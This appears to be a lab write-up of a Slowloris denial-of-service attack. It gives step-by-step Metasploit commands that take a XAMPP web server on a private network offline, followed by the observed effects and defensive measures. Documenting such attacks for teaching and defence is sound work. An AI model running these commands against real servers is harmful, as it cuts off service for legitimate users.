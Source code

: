 # Slowloris Attack

## Introduction
The Slowloris attack is a type of Denial-of-Service (DoS) attack that targets web servers by opening multiple simultaneous HTTP connections and keeping them alive as long as possible. This exhausts the server's available connection pool, preventing it from handling legitimate requests.

---

## Attack Scenario

### Target
- **Web-SRV2**  
  IP: `192.168.1.7`  
  Running web services via XAMPP

### Attacker
- **Kali Linux**  
  IP: `192.168.1.8`

---

## Normal Operation
Before the attack:  
- Web-SRV2 runs normally with web services active.  
- Remote-PC1 can access `http://192.168.1.7` without any issues.

---

## Launching the Attack
1. Open Metasploit on the attacker machine:

```bash
msfconsole
```

2. Search for the Slowloris module:

```bash
msf6> search slowloris
```

3. Select and use the module:

```bash
msf6> use 0
```

4. Configure the target host:

```bash
msf6 auxiliary(dos/http/slowloris) > options
msf6 auxiliary(dos/http/slowloris) > set rhost 192.168.1.7
```

5. Run the attack:

```bash
msf6 auxiliary(dos/http/slowloris) > run
```

---

## Observed Effect
- After some time, **Web-SRV2 becomes unresponsive** and cannot serve legitimate requests.  
- Wireshark captures show multiple open TCP connections maintained for an extended period.  
- Stopping the attack releases the connections and Web-SRV2 returns to normal operation.

---

## Defensive Measures
- **Web server configuration**: Limit maximum concurrent connections per IP.  
- **Timeout settings**: Reduce the timeout for idle HTTP connections.  
- **Load balancers / reverse proxies**: Protect backend servers by managing connection pools.  
- **Intrusion detection / prevention**: Monitor for abnormal connection patterns.

---

## Summary
The Slowloris attack demonstrates how resource exhaustion can disrupt a web server without generating high bandwidth. Proper server configuration, connection management, and monitoring are key to preventing this type of DoS attack.

